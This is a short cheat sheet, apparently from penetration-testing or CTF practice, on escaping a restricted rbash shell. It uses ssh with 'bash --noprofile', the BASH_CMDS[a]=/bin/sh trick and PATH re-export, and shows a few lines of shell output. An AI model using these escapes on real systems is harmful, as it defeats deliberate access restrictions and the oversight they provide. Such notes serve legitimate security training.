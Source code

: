 # **rbash shell esacping**

ssh <user>@<ip> 'bash --noprofile'  
  
ssh escape restricted shell  
  
ssh mindy@x.x.x.x  
ssh mindy@x.x.x.x  
ssh mindy@x.x.x.x  
  
  
#>export PATH=/bin:/sbin:/usr/bin:/usr/sbin:/usr/local/bin:/usr/local/sbin:$PATH  
  
------------------------------------------------------------------------------------------------------------  
$ ls  
-rbash: /usr/bin/python: restricted: cannot specify `/' in command names  
$ BASH_CMDS[a]=/bin/sh;a  
$ export PATH=$PATH:/bin/  
$ export PATH=$PATH:/usr/bin